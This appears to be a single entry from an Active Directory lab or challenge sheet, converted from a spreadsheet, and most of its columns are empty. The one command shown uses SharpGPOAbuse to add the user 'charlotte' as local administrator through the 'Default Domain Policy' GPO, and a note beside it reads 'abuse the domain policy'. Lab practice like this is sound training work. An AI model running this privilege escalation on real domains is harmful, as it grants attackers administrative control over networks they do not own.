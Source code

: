 # Lab Challange - 0 — Entry 26

## Unnamed: 0

_(empty)_

## Unnamed: 1

_(empty)_

## Unnamed: 2

_(empty)_

## Unnamed: 3

```
.\SharpGPOAbuse.exe SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Default Domain Policy"
```

## Unnamed: 4

_(empty)_

## Unnamed: 5

_(empty)_

## Unnamed: 6

_(empty)_

## Unnamed: 7

_(empty)_

## Unnamed: 8

_(empty)_

## Unnamed: 9

_(empty)_

## Unnamed: 10

_(empty)_

## Unnamed: 11

Abuse the domain policy

